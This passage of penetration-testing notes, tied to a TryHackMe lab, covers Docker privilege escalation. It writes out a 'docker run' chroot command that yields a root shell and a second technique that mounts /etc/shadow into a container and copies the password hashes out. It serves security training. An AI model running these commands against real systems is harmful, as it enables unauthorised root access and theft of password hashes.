





10. Dockers (Unix Socket Exploitation)
Docker machine
usedVulnerable VM:
https://tryhackme.com/room/ultratech1 and walkthrough:
https://hacker.observer/ultratech-tryhackme-walkthrough/If
in the target machine we are
• unprivileged user with access to the docker command (he is part of docker
group).
• the docker Unix socket is not protected by implementing the appropriate
permissions.
0. Automated tool (
linenum.sh)
If we are in a docker, we should see something like that
1. Manually: Check if we are in the docker group or root. In this
case, we can run some interesting commands!
target@debian:~$ id
target@debian:~$ groups
2. Use
https://gtfobins.github.io/gtfobins/docker/ ◇
If we have a shell, the shell can be used to break out from restricted environments by spawning an
interactive system shell.
The resulting is a root shell.
1)
Show all the containers both stopped and running
 2) Run the command of
gtfobins and change the value of [Container-Image] with the Image on your docker
target@debian:~$ docker run -v /:/mnt --rm -it [Container-Name-Image] chroot /mnt sh
Note: In our case we need to change the value in the
command of gtfobins from “alpine” to "bash" if we are inside a bash shell
 Now we are root!
Docker Privilege Escalation (Technique 2)
target@debian:~$ docker images
target@debian:~$ docker run -tid bash #to run a new container, take note of the ID
target@debian:~$ docker ps
target@debian:~$ docker run -v /etc/shadow:/docker/hashedpasswords -d [imageName]
target@debian:~$ docker exec -ti {ID} bash
bash# whoami
bash# cat /docker/hashedpasswords > /docker/test.txt
bash# chmod 777 /docker/test.txt
bash# cat /docker/test.txt
